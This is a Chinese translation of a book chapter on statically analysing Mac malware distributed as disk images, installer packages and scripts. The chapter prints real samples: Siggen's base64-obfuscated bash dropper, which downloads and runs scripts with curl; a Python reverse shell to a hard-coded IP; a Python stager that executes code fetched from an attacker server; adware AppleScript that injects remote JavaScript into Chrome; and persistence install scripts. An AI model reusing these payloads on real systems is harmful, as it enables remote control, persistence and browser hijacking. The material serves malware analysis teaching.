









# 第四章：非二进制分析


本章重点介绍对非二进制文件格式的静态分析，例如你在分析 Mac 恶意软件时常遇到的包、磁盘映像和脚本。包和磁盘映像是压缩文件格式，通常用于将恶意软件传递到用户的系统。当我们遇到这些压缩文件类型时，我们的目标是提取它们的内容，包括任何恶意文件。这些文件，例如恶意软件的安装程序，可能有各种格式，但最常见的是脚本或已编译的二进制文件（通常在应用程序包内）。由于脚本是纯文本格式，因此手动分析相对容易，尽管恶意软件作者常常通过混淆技术来增加分析的难度。另一方面，已编译的二进制文件不易为人理解。分析这些文件需要理解 macOS 二进制文件格式，并使用特定的二进制分析工具。后续章节将涵盖这些内容。

静态分析文件时，通常的第一步是确定文件类型。这一步至关重要，因为大多数静态分析工具都是文件类型特定的。例如，如果我们识别一个文件是包或磁盘映像，我们会使用能够从这些压缩安装介质中提取组件的工具。另一方面，如果文件是已编译的二进制文件，我们就必须使用专门的二进制分析工具来帮助我们的分析工作。

## 识别文件类型

如前所述，大多数静态分析工具都是文件类型特定的。因此，分析潜在恶意文件的第一步是识别其文件类型。如果文件有扩展名，扩展名通常可以识别文件的类型，尤其是操作系统用来调用默认操作的扩展名。例如，如果恶意磁盘映像没有 *.dmg* 扩展名，用户双击时它不会被自动挂载，因此恶意软件作者不太可能删除它。

然而，恶意软件作者常常会试图掩盖其创作的真实文件类型，以欺骗或强迫用户运行它。显而易见，外观可能具有欺骗性，不能仅凭文件的外观（例如图标）或看似的扩展名来识别文件类型。例如，WindTail 恶意软件专门设计成伪装成无害的 Microsoft Office 文档。实际上，该文件是一个恶意应用程序，当执行时会持续感染系统。

在另一端，恶意文件可能没有图标或文件扩展名。此外，对这类文件内容的初步筛查可能无法提供任何关于文件实际类型的线索。例如，列表 4-1 是一个疑似恶意文件，名为 *5mLen*，格式为未知的二进制文件。

```
% **hexdump -C 5mLen**
00000000  03 f3 0d 0a 97 93 55 5b  63 00 00 00 00 00 00 00  |......Uc.......|
00000010  00 03 00 00 00 40 00 00  00 73 36 00 00 00 64 00  |.....@...s6...d.|
00000020  00 64 01 00 6c 00 00 5a  00 00 64 00 00 64 01 00  |.d..l..Z..d..d..|
00000030  6c 01 00 5a 01 00 65 00  00 6a 02 00 65 01 00 6a  |l..Z..e..j..e..j|
00000040  03 00 64 02 00 83 01 00  83 01 00 64 01 00 04 55  |..d........d...U|
00000050  64 01 00 53 28 03 00 00  00 69 ff ff ff ff 4e 73  |d..S(....i....Ns|
00000060  d8 08 00 00 65 4a 79 64  56 2b 6c 54 49 6a 6b 55  |....eJydV+lTIjkU|
00000070  2f 38 35 66 51 56 47 31  53 33 71 4c 61 52 78 6e  |/85fQVG1S3qLaRxn|
00000080  6e 42 6d 6e 4e 6c 73 4f  6c 2b 41 67 49 71 43 67  |nBmnNlsOl+AgIqCg|
```

列表 4-1：未知文件类型

那么我们如何有效地识别一个文件的格式呢？一个很好的选择是 macOS 内置的 `file` 命令。例如，运行 `file` 命令在未知的 *5mLen* 文件上，可以识别该文件的类型为字节编译的 Python 代码（[示例 4-2）：

```
% **file 5mLen** 
5mLen: python 2.7 byte-compiled
```

示例 4-2：使用 `file` 识别字节编译的 Python 脚本

很快会详细介绍这个广告软件，但知道一个文件是字节编译的 Python 代码，能够让我们利用各种*特定于此文件格式*的工具；例如，我们可以使用 Python 反编译器重构出原始 Python 代码的可读表示。

回到 WindTail，我们再次可以使用 `file` 工具来揭示那些恶意文件（这些文件尝试通过使用图标伪装成无害的 Office 文档），实际上是包含 64 位 Mach-O 可执行文件的应用程序包（示例 4-3）：

```
% **file Final_Presentation.app/Contents/MacOS/usrnode** 
Final_Presentation.app/Contents/MacOS/usrnode: Mach-O 64-bit executable x86_64
```

示例 4-3：使用 `file` 识别编译后的 64 位 Mach-O 可执行文件（WindTail）

请注意，`file` 工具有时并不能以非常有用的方式识别文件类型。例如，它经常错误地识别磁盘镜像（*.dmg*），即使它们可能是压缩的，也常被误识别为 `VAX COFF` 文件。在这种情况下，像 WhatsYourSign 这样的工具可能更加有帮助。^(1)

我编写了 WhatsYourSign（WYS）作为一款免费、开源的工具，主要设计用来显示加密签名信息，但它也能识别文件类型。安装 WYS 后，它会在 Finder 中添加一个上下文菜单选项。这样，你就可以 ctrl+点击任何文件，然后在下拉菜单中选择 **签名信息** 选项查看文件的类型。例如，WYS 可以轻松识别 WindTail 的真实类型：一个标准应用程序（图 4-1）。



图 4-1：使用 WhatsYourSign 识别应用程序（WindTail）

除了通过 macOS 用户界面提供便捷的方式来确定文件类型，WYS 还能够识别一些命令行工具 `file` 可能识别困难的文件类型，例如磁盘镜像。以示例 4-4 中的例子为例，我们对一个被 EvilQuest 恶意软件感染的磁盘镜像运行 `file` 命令：

```
% **file "EvilQuest/Mixed In Key 8.dmg"**
EvilQuest/Mixed In Key 8.dmg: zlib compressed data
```

示例 4-4：对于磁盘镜像，`file` 无法识别（EvilQuest）

`file` 工具的响应并不太有帮助，它只是显示“zlib 压缩数据”。虽然这在技术上是正确的（磁盘镜像确实是压缩数据），但是 WYS 的输出更加有用。如你在图 4-2 中所见，它将项目类型列为“磁盘镜像”。



图 4-2：使用 WYS 识别磁盘镜像（EvilQuest）

## 从分发包装中提取恶意文件

在确定一个项目的文件类型后，通常会借助专门针对该文件类型的工具继续进行静态分析。例如，如果某个项目是磁盘镜像或安装包，你可以利用专门设计的工具从这些分发机制中提取文件。我们现在来看看这个过程。

### Apple 磁盘镜像（.dmg）

Apple 磁盘镜像（*.dmg*）是向 Mac 用户分发软件的一种流行方式。当然，恶意软件作者也可以利用这种软件分发格式。

你通常可以通过文件扩展名 *.dmg* 来识别磁盘镜像。恶意软件作者很少会更改这个扩展名，因为当用户双击任何 *.dmg* 扩展名的文件时，操作系统会自动挂载它并显示其内容，这通常是恶意软件作者所希望的。或者，你也可以使用 WYS 来识别这种文件类型，因为 `file` 工具可能无法明确识别这种磁盘镜像。

在分析过程中，我们可以通过 macOS 内置的 `hdiutil` 命令手动挂载 Apple 磁盘镜像，这样我们就能检查磁盘镜像的结构，并提取文件内容，例如恶意安装程序或应用程序，进行进一步分析。通过 `attach` 选项调用 `hdiutil` 时，`hdiutil` 会将磁盘镜像挂载到 */Volumes* 目录。例如，清单 4-5 通过命令 `hdiutil attach` 挂载一个被特洛伊木马感染的磁盘镜像：

```
% **hdiutil attach CreativeUpdate/Firefox\ 58.0.2.dmg** 
  /dev/disk3s2  Apple_HFS  /Volumes/Firefox
```

清单 4-5：使用`hdiutil`挂载感染的磁盘镜像（CreativeUpdate）

一旦磁盘镜像被挂载，`hdiutil` 会显示挂载目录（例如 */Volumes/Firefox*）。现在，你可以直接访问磁盘镜像中的文件。通过终端（使用 `cd /Volumes/Firefox`）或用户界面浏览这个挂载的磁盘镜像，能发现一个被 CreativeUpdate 恶意软件感染的 Firefox 应用程序。有关 *.dmg* 文件格式的更多细节，请参见《解密 DMG 文件格式》^(2)

### 安装包（.pkg）

另一种攻击者常常滥用的文件格式是无处不在的 macOS 安装包。与磁盘镜像类似，当使用 `file` 工具分析安装包时，输出可能会有些令人困惑。具体来说，它可能会将安装包识别为压缩的 *.xar* 存档文件，这是打包工具的底层文件格式。从分析的角度来看，知道它是一个安装包远比知道它是一个 *.xar* 文件更有帮助。

WYS 可以更准确地识别此类文件为安装包。此外，当分发时，安装包通常会以 *.pkg* 或 *.mpkg* 文件扩展名结尾。这些扩展名确保 macOS 会自动启动该安装包，例如，当用户双击该文件时。安装包也可以进行签名，这一事实可以在分析时提供一些线索。例如，如果一个安装包由知名公司（如 Apple）签名，那么该安装包及其内容很可能是良性的。

与磁盘映像类似，您通常不会对包本身感兴趣，而是对其内容感兴趣。因此，我们的目标是提取包的内容进行分析。由于包是压缩档案，您需要一个工具来解压并检查或提取包的内容。如果您习惯使用终端，macOS 内置的 `pkgutil` 工具可以通过 `--expand-full` 命令行选项提取包的内容。另一种选择是免费的 Suspicious Package 应用程序，正如其文档所解释的那样，它可以让您在不先安装的情况下打开和探索 macOS 安装包。^(3) 具体来说，Suspicious Package 允许您检查包的元数据，如代码签名信息，还可以浏览、查看和导出包中找到的任何文件。

作为示例，我们使用 Suspicious Package 来查看一个包含 CPUMeaner 恶意软件的包 (图 4-3)。


图 4-3：使用 Suspicious Package 检查包（CPUMeaner）

Suspicious Package 的“包信息”标签提供了有关该包的一般信息，包括：

+   它安装了两个项目

+   其证书已被 Apple 吊销（这是一个关键问题和一个巨大的警告标志，可能表示它包含恶意代码）

+   它运行两个安装脚本

“所有文件”标签 (图 4-4) 显示了如果该包运行时将安装的目录和文件。此外，该标签还允许我们导出这些项目中的任何一个。



图 4-4：使用 Suspicious Package 导出文件（CPUMeaner）

包通常包含安装前和安装后的 bash 脚本，这些脚本可能包含完成安装所需的额外逻辑。由于这些文件在安装过程中会自动执行，因此在分析潜在恶意包时，您应该始终检查并检查这些文件！恶意软件作者非常喜欢滥用这些脚本来执行恶意操作，例如持续安装他们的代码。

确实，点击“所有脚本”标签显示了一个恶意的安装后脚本 (图 4-5)。

如你所见，CPUMeaner 的安装后脚本包含一个嵌入的启动代理属性列表，并包含配置和写入文件 */Library/LaunchAgents/com.osxext.cpucooler.plist* 的命令。一旦这个属性列表被安装，恶意软件的二进制文件（*/Library/Application Support/CpuCooler/cpucooler*）将在每次用户登录时自动启动。



图 4-5：使用 Suspicious Package 检查安装后脚本（CPUMeaner）

在一篇名为“Pass the AppleJeus”的文章中，我指出了另一个恶意包的例子，这次属于 Lazarus 组织。^(4) 由于该恶意包被包含在一个 Apple 磁盘映像中，必须先挂载 *.dmg* 文件。如 列表 4-6 所示，我们首先挂载恶意磁盘映像 *JMTTrader_Mac.dmg*。一旦它被挂载到 */Volumes/JMTTrader/*，我们就可以列出它的文件。我们观察到它包含一个包，*JMTTrader.pkg*：

```
% **hdiutil attach JMTTrader_Mac.dmg**
...
/dev/disk3s1 /Volumes/JMTTrader

% **ls /Volumes/JMTTrader/**
JMTTrader.pkg
```

列表 4-6：列出磁盘映像中的文件（AppleJeus）

一旦磁盘映像被挂载，我们可以通过 Suspicious Package 访问并检查恶意包（*JMTTrader.pkg*），如 图 4-6 所示。



图 4-6：使用 Suspicious Package 检查包（AppleJeus）

该包未签名（这相当不寻常），并包含以下安装后脚本，其中包含恶意软件的安装逻辑（列表 4-7）：

```
#!/bin/sh
mv /Applications/JMTTrader.app/Contents/Resources/.org.jmttrading.plist   
   /Library/LaunchDaemons/org.jmttrading.plist

chmod 644 /Library/LaunchDaemons/org.jmttrading.plist
mkdir /Library/JMTTrader

mv /Applications/JMTTrader.app/Contents/Resources/.CrashReporter 
   /Library/JMTTrader/CrashReporter

chmod +x /Library/JMTTrader/CrashReporter

/Library/JMTTrader/CrashReporter Maintain &
```

列表 4-7：一个包含安装逻辑的安装后脚本（AppleJeus）

检查这个安装后脚本会发现它会持久性地安装恶意软件（*CrashReporter*）作为启动守护进程（*org.jmttrading.plist*）。

## 脚本分析

一旦你从其分发包中提取了恶意软件（无论是 *.dmg*、*.pkg*、*.zip* 还是其他格式），接下来就可以分析实际的恶意软件样本。通常，这类恶意软件要么是脚本（如 shell 脚本、Python 脚本或 AppleScript），要么是编译过的 Mach-O 二进制文件。由于脚本的可读性，通常比较容易分析，而且可能不需要特殊的分析工具，所以我们从这里开始。

### Bash Shell 脚本

你会发现各种使用 shell 脚本语言编写的 Mac 恶意软件样本。除非 shell 脚本代码经过混淆，否则它们很容易理解。例如，在第三章中，我们查看了一个 bash 脚本，Dummy 恶意软件将其作为启动守护进程持久化。回忆一下，这个脚本只是执行了一些 Python 命令，以启动一个交互式远程 Shell。

我们在 Siggen 中发现了一个稍微复杂一些的恶意 bash 脚本示例。^(5) Siggen 被作为一个 ZIP 文件分发，其中包含了一个恶意的基于脚本的应用程序，*WhatsAppService.app*。这个应用程序是通过流行的开发者工具 Platypus 创建的，Platypus 会将一个脚本打包成一个原生的 macOS 应用程序。^(6) 当运行一个“platypussed”应用程序时，它会执行名为 *script* 的脚本，该脚本位于应用程序的 *Resources/* 目录中（图 4-7）。



图 4-7：基于脚本的有效载荷（Siggen）

让我们来看看这个 shell 脚本，看看我们能从中学到什么（清单 4-8）：

```
echo c2NyZWVuIC1kbSBiYXNoIC1jICdzbGVlcCA1O2tpbGxhbGwgVGVybWluYWwn1 | base64 -D2 | sh
curl -s http://usb.mine.nu/a.plist -o ~/Library/LaunchAgents/a.plist 
echo Y2htb2QgK3ggfi9MaWJyYXJ5L0xhdW5jaEFnZW50cy9hLnBsaXN0 | base64 -D | sh
launchctl load -w ~/Library/LaunchAgents/a.plist
curl -s http://usb.mine.nu/c.sh -o /Users/Shared/c.sh
echo Y2htb2QgK3ggL1VzZXJzL1NoYXJlZC9jLnNo | base64 -D | sh
echo L1VzZXJzL1NoYXJlZC9jLnNo | base64 -D | sh
```

清单 4-8：一个恶意的 bash 脚本（Siggen）

你可能会注意到脚本的各个部分是经过模糊化的，比如第一段长长的乱码。我们可以识别出模糊化方案是 base64，因为脚本将模糊化字符串通过管道传递给 macOS 的 `base64` 命令（并使用解码标志 `-D`）2。使用相同的 `base64` 命令，我们可以手动解码，从而完全去除脚本的模糊化。

一旦这些编码的脚本片段被解码，就容易全面理解脚本。第一行，`echo c2NyZ...Wwn | base64 -D | sh`，解码并执行 `screen -dm bash -c 'sleep 5;killall Terminal'`，它有效地终止任何正在运行的 *Terminal.app* 实例，这很可能是作为一种基本的反分析技巧。接着，通过 `curl`，恶意软件下载并保持一个名为 *a.plist* 的启动代理。接下来，它解码并执行另一个模糊化的命令。解码后的命令，`chmod +x ~/Library/LaunchAgents/a.plist`，不必要地将启动代理的属性列表设置为可执行。然后，通过 `launchctl load` 命令加载这个属性列表。恶意软件接着下载另一个文件，即另一个名为 *c.sh* 的脚本。解码最后两行后可以发现，恶意软件首先将该脚本设置为可执行，然后执行它。

那么 */Users/Shared/c.sh* 脚本做了什么呢？让我们来看看（清单 4-9）。

```
#!/bin/bash
v=$( curl --silent http://usb.mine.nu/p.php | grep -ic 'open' )
p=$( launchctl list | grep -ic "HEYgiNb" )
if [ $v -gt 0 ]; then
if [ ! $p -gt 0 ]; then
 echo IyAtKi0gY29kaW5n...AgcmFpc2UK | base64 --decode | python 3
fi
```

清单 4-9：另一个恶意的 bash 脚本（Siggen）

在连接到 *usb.mine.nu/p.php* 后，它会检查响应中是否包含字符串 `'open'`。之后，脚本检查是否有名为 `HEYgiNb` 的启动服务正在运行。此时，它解码一大段 base64 编码的数据，并通过 Python 执行它。接下来我们来讨论如何静态分析这样的 Python 脚本。

### Python 脚本

轶事性地说，Python 似乎是 Mac 恶意软件作者的首选脚本语言，因为它非常强大、灵活，并且 macOS 原生支持。尽管这些脚本通常利用基本的编码和混淆技术来使分析变得复杂，但分析恶意 Python 脚本仍然是一项相对直接的任务。一般的做法是首先解码或去混淆 Python 脚本，然后阅读解码后的代码。尽管各种在线网站可以帮助分析混淆的 Python 脚本，但手动分析的方法也同样有效。接下来我们将讨论两种方法。

让我们首先考虑 清单 4-10，一个未混淆的示例：虚拟脚本的小型 Python 载荷（包含在一个 bash 脚本中）。

```
#!/bin/bash
while :
do
      python -c 1 'import socket,subprocess,os; 

      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
    2 s.connect(("185.243.115.230",1337)); 

    3 os.dup2(s.fileno(),0); 
      os.dup2(s.fileno(),1); 
      os.dup2(s.fileno(),2); 

    4 p=subprocess.call(["/bin/sh","-i"]);' 
      sleep
done
```

清单 4-10：一个恶意的 Python 脚本（虚拟脚本）

由于这段代码没有被混淆，理解恶意软件的逻辑是很直接的。它首先导入了多个标准的 Python 模块，如 `socket`、`subprocess` 和 `os` 1。接着，它创建了一个套接字，并连接到 `185.243.115.230` 的 `1337` 端口 2。然后，它将 `STDIN`（`0`）、`STDOUT`（`1`）和 `STDERR`（`2`）的文件句柄复制， 3 将它们重定向到套接字。

脚本接着通过 `-i` 标志 4 以交互模式执行 shell，*/bin/sh*。由于 `STDIN`、`STDOUT` 和 `STDERR` 的文件句柄已经被复制到连接的套接字，攻击者输入的任何远程命令都将在受感染的系统上本地执行，任何输出也会通过套接字发送回来。换句话说，这段 Python 代码实现了一个简单的交互式远程 shell。

另一种至少部分用 Python 编写的 macOS 恶意软件是 Siggen。如前一部分所述，Siggen 包含一个 bash 脚本，用于解码大量 base64 编码的数据，并通过 Python 执行它。清单 4-11 显示了解码后的 Python 代码：

```
# -*- coding: utf-8 -*-
import urllib2
from base64 import b64encode, b64decode
import getpass
from uuid import getnode
from binascii import hexlify

def get_uid():
    return hexlify(getpass.getuser() + "-" + str(getnode()))

LaCSZMCY = "Q1dG4ZUz"
data = { 1
    "Cookie": "session=" + b64encode(get_uid()) + "-eyJ0eXBlIj...ifX0=", 2
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 
    (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
} 

try:
    request = urllib2.Request("http://zr.webhop.org:1337", headers=data) 
    urllib2.urlopen(request).read() 3
except urllib2.HTTPError as ex:
    if ex.code == 404:
      exec(b64decode(ex.read().split("DEBUG:\n")[1].replace("DEBUG-->", ""))) 4
    else:
      raise
```

清单 4-11：解码后的 Python 载荷（Siggen）

在导入了几个模块后，脚本定义了一个名为 `get_uid` 的函数。这个子程序根据受感染系统的用户和 MAC 地址生成一个唯一标识符。接着，脚本构建了一个字典，用于保存 HTTP 请求头，以便在随后的 HTTP 请求中使用 1。内嵌的、硬编码的 base64 编码数据 `-eyJ0eXBlIj...ifX0=` 2 解码成一个 JSON 字典（清单 4-12）。

```
'{"type": 0, "payload_options": {"host": "zr.webhop.org", "port": 1337}, "loader_options": {"payload_filename": "yhxJtOS", "launch_agent_name": "com.apple.HEYgiNb", "loader_name": "launch_daemon", "program_directory": "~/Library/Containers/.QsxXamIy"}}'
```

清单 4-12：解码后的配置数据（Siggen）

脚本随后通过 `urllib2.urlopen` 方法 3 向攻击者的服务器 *http://zr.webhop.org* 发送请求，端口为 `1337`。它期待服务器返回一个 404 HTTP 状态码，通常意味着请求的资源未找到。然而，检查脚本后可以发现，恶意软件期望该响应包含 base64 编码的数据，它会提取并解码这些数据，然后执行 4。

不幸的是，在我 2019 年初进行分析时，*http://zr.webhop.org* 服务器已经不再提供该最终阶段的有效载荷。然而，知名的 Mac 安全研究员 Phil Stokes 提到该脚本“利用了一个公共的后期利用工具包，*Evil.OSX*，来安装后门。”^(7) 当然，攻击者随时可以替换远程的 Python 有效载荷，以在被感染的系统上执行任何他们想要的操作！

最后一个例子，让我们回到名为 *5mLen* 的广告软件文件。在本章前面我们已经讨论过，当时我们使用 `file` 工具确定它是一个编译后的 Python 代码。由于 Python 是一种解释型语言，用这种语言编写的程序通常会以可读的脚本形式分发。然而，这些脚本也可以被编译并以 Python 字节码的二进制文件格式分发。为了静态分析该文件，你必须首先将 Python 字节码反编译回原始 Python 代码的表示。一个在线资源，比如 Decompiler，可以帮助你完成这一反编译工作。^(8) 另一种选择是安装 uncompyle6 Python 包来本地反编译 Python 字节码。^(9)

列表 4-13 显示了反编译后的 Python 代码：

```
# Python bytecode 2.7 (62211)
# Embedded file name: r.py
# Compiled at: 2018-07-18 14:41:28
import zlib, base64
exec zlib.decompress(base64.b64decode('eJydVW1z2jgQ/s6vYDyTsd3...SeC7f1H74d1Rw=')) 1
```

列表 4-13：反编译的 Python 代码（未指定的广告软件）

尽管现在我们得到了 Python 源代码，但大部分代码仍然以看似编码字符串的形式混淆。通过 `zlib.decompress` 和 `base64.b64decode` 的 API 调用，我们可以得出结论，原始源代码已被 base64 编码并使用 zlib 压缩，以稍微增加静态分析的难度。

去混淆代码最简单的方法是通过 Python Shell 解释器。我们可以将 `exec` 语句转换为 `print` 语句，然后让解释器为我们完全去混淆代码（列表 4-14）：

```
% **python**
> **import zlib, base64**
> **print zlib.decompress(base64.b64decode(eJydVW1z2jgQ/s6vYDyTsd3...SeC7f1H74d1Rw='))**
from subprocess import Popen,PIPE
...
class wvn:
  def __init__(wvd,wvB): 1
  wvd.wvU()
  wvd.B64_FILE='ij1.b64'
  wvd.B64_ENC_FILE='ij1.b64.enc'
  wvd.XOR_KEY="1bm5pbmcKc" 
  wvd.PID_FLAG="493024ui5o" 
  wvd.PLAIN_TEXT_SCRIPT=''
  wvd.SLEEP_INTERVAL=60
  wvd.URL_INJECT="https://1049434604.rsc.cdn77.org/ij1.min.js"
  wvd.MID=wvd.wvK(wvd.wvj())

  def wvR(wvd):
    if wvc(wvd._args)>0:
      if wvd._args[0]=='enc99':
        pass
    elif wvd._args[0].startswith('f='): 2
    try:
      wvd.B64_ENC_FILE=wvd._args[0].split('=')[1] 3
    except:
      pass

  def wvY(wvd):
    with wvS(wvd.B64_ENC_FILE)as f:
      wvd.PLAIN_TEXT_SCRIPT=f.read().strip()
      wvd.PLAIN_TEXT_SCRIPT=wvF(wvd.wvq(wvd.PLAIN_TEXT_SCRIPT))
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("pid_REPLACE",wvd.PID_FLAG)
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("script_to_inject_REPLACE",
                                                          wvd.URL_INJECT)
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("MID_REPLACE",wvd.MID)

  def wvI(wvd):
    p=Popen(['osascript'],stdin=PIPE,stdout=PIPE,stderr=PIPE)
    wvi,wvP=p.communicate(wvd.PLAIN_TEXT_SCRIPT)
```

列表 4-14：去混淆后的 Python 代码（未指定的广告软件）

拿到完整的去混淆 Python 代码后，我们可以通过阅读脚本来继续分析，弄清楚它的功能。在 `wvn` 类的 `__init__` 方法中，我们看到涉及多个感兴趣变量的引用 1。根据它们的名称（以及进一步的分析），我们推断这些变量包含了一个 base64 编码文件的名称（*ij1.b64*）、一个 XOR 加密密钥（`1bm5pbmcKc`），以及一个“注入”URL（*https://1049434604.rsc.cdn77.org/ij1.min.js*）。如你所见，后者会被本地注入到用户网页中，用来加载恶意的 JavaScript。在 `wvR` 方法中，代码检查脚本是否通过 `f=` 命令行选项被调用 2。如果是，它会将 `B64_ENC_FILE` 变量设置为指定的文件 3。在被感染的系统上，脚本会持续通过 `python 5mLen f=6bLJC` 命令被调用，这意味着 `B64_ENC_FILE` 会被设置为 `6bLJC`。

检查 `6bLJC` 文件会发现它被编码，或者可能被加密。虽然我们可能能够手动解码它（因为我们有 `XOR` 密钥 `1bm5pbmcKc`），但还有一种更简单的方法。同样，通过在解码文件内容的逻辑后立即插入 `print` 语句，我们可以强制恶意软件输出解码后的内容。这个输出结果竟然是另一个恶意软件执行的脚本。然而，这个脚本不是 Python，而是 AppleScript，接下来我们将深入探讨它。关于该恶意软件静态分析的更详细步骤，请参见我的文章《Mac 广告软件，类 Python》。^(10)

### AppleScript

AppleScript 是一种特定于 macOS 的脚本语言，通常用于无害目的，且经常用于系统管理，例如任务自动化或与系统中其他应用程序进行交互。其语法设计上与口语英语非常接近。例如，要显示一个带有警报的对话框（Listing 4-15），你可以简单地写：

```
display dialog "Hello, World!"
```

Listing 4-15: 在 AppleScript 中的“Hello, World！”

你可以通过 `/usr/bin/osascript` 命令执行这些脚本。AppleScript 可以以其原始的、可读的人类形式或编译后的形式分发。前者使用 *.applescript* 扩展名，而后者通常使用 *.scpt* 扩展名，如 Listing 4-16 所示：

```
% **file helloWorld.scpt** 
helloWorld.scpt: AppleScript compiled
```

Listing 4-16: 使用 `file` 来识别编译过的 AppleScript

除非脚本是使用“仅运行”选项编译的（稍后将详细说明），否则 Apple 的脚本编辑器可以从编译后的脚本中重建源代码。例如，Figure 4-8 显示了脚本编辑器成功地反编译了我们编译过的“Hello, World！”脚本。



图 4-8: 苹果的脚本编辑器

你还可以通过 macOS 内置的 `osadecompile` 命令反编译脚本（Listing 4-17）：

```
% **osadecompile helloWorld.scpt**
display dialog "Hello, World!"
```

Listing 4-17: 通过 AppleScript 显示“Hello, World！”

让我们从一个简单的示例开始。之前在本章中，我们讨论了一个用 Python 编译的广告软件样本，并指出它包含一个 AppleScript 组件。Python 代码解密存储在 `wvd.PLAIN_TEXT_SCRIPT` 变量中的 AppleScript，然后通过调用 `osascript` 命令执行它。Listing 4-18 显示了这个 AppleScript：

```
global _keep_running
set _keep_running to "1"

repeat until _keep_running = "0"
  «event XFdrIjct» {}
end repeat

on «event XFdrIjct» {}
  delay 0.5
  try
    if is_Chrome_running() then
      tell application "Google Chrome" to tell active tab of window 1 1
        set sourceHtml to execute javascript "document.getElementsByTagName('head')[0].
        innerHTML"
        if sourceHtml does not contain "493024ui5o" then
          tell application "Google Chrome" to execute front window's active tab javascript 2
          "var pidDiv = document.createElement('div'); pidDiv.id = \"493024ui5o\"; 
          pidDiv.style = \"display:none\"; pidDiv.innerHTML = 
          \"bbdd05eed40561ed1dd3daddfba7e1dd\";
          document.getElementsByTagName('head')[0].appendChild(pidDiv);"
          tell application "Google Chrome" to execute front window's active tab javascript 
          "var js_script = document.createElement('script'); js_script.type = \"text/
          javascript\"; js_script.src = \"https://1049434604.rsc.cdn77.org/ij1.min.js\"; 3
          document.getElementsByTagName('head')[0].appendChild(js_script);"
        end if
      end tell
    else
      set _keep_running to "0"
    end if
  end try
end «event XFdrIjct»

on is_Chrome_running()
  tell application "System Events" to (name of processes) contains "Google Chrome" 4
end is_Chrome_running
```

Listing 4-18: 恶意 AppleScript（未指定的广告软件）

